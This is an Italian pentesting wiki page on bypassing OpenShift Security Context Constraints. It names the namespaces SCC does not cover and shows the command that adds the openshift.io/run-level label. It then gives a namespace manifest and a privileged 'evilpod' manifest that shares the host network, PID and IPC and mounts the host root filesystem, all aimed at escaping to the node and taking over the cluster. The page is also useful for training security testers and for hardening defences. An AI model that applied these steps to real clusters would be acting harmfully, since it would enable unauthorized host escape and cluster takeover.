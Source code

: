 # Openshift - Bypass SCC

**L'autore originale di questa pagina è** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Namespace privilegiati

Per impostazione predefinita, SCC non si applica ai seguenti progetti:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Se si distribuiscono pod all'interno di uno di questi namespace, nessun SCC verrà applicato, consentendo la distribuzione di pod privilegiati o il mount del file system dell'host.

## Etichetta del Namespace

Esiste un modo per disabilitare l'applicazione di SCC sul tuo pod secondo la documentazione di RedHat. Avrai bisogno di almeno uno dei seguenti permessi:

* Creare un Namespace e creare un Pod su questo Namespace
* Modificare un Namespace e creare un Pod su questo Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Il label specifico `openshift.io/run-level` consente agli utenti di aggirare gli SCC per le applicazioni. Secondo la documentazione di RedHat, quando viene utilizzato questo label, nessun SCC viene applicato a tutti i pod all'interno di quel namespace, rimuovendo efficacemente qualsiasi restrizione.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Aggiungi Label

Per aggiungere il label nel tuo namespace:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Per creare uno spazio dei nomi con l'etichetta tramite un file YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ora, tutti i nuovi pod creati nello spazio dei nomi non dovrebbero avere alcun SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In assenza di SCC, non ci sono restrizioni sulla definizione del tuo pod. Ciò significa che un pod maligno può essere facilmente creato per sfuggire al sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ora è diventato più facile scalare i privilegi per accedere al sistema host e successivamente prendere il controllo dell'intero cluster, ottenendo i privilegi 'cluster-admin'. Cerca la parte di **Post Esploitation del Nodo** nella seguente pagina:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Etichette personalizzate

Inoltre, in base alla configurazione del target, potrebbero essere utilizzate alcune etichette personalizzate / annotazioni nello stesso modo del precedente scenario di attacco. Anche se non è stato progettato per questo, le etichette potrebbero essere utilizzate per concedere permessi, limitare o meno una risorsa specifica.

Prova a cercare etichette personalizzate se riesci a leggere alcune risorse. Ecco un elenco di risorse interessanti:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Elenco di tutti i namespace privilegiati
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avanzato

In OpenShift, come dimostrato in precedenza, avere il permesso di distribuire un pod in un namespace con l'etichetta `openshift.io/run-level` può portare a un takeover diretto del cluster. Dal punto di vista delle impostazioni del cluster, questa funzionalità **non può essere disabilitata**, poiché è intrinseca al design di OpenShift.

Tuttavia, misure di mitigazione come **Open Policy Agent GateKeeper** possono impedire agli utenti di impostare questa etichetta.

Per aggirare le regole di GateKeeper e impostare questa etichetta per eseguire un takeover del cluster, **gli attaccanti dovrebbero identificare metodi alternativi.**

## Riferimenti

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
